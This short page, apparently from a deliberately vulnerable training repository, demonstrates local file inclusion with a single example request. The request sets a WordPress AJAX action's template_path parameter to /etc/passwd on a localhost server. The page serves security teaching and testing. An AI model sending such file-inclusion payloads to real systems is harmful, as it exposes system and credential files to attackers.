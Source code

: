 # Local File Inclusion

https://github.com/patchstack/vulnerability-playground/blob/main/lfi/init.php

```
http://127.0.0.1:8080/wp-admin/admin-ajax.php?action=render_lesson&template_path=/etc/passwd
```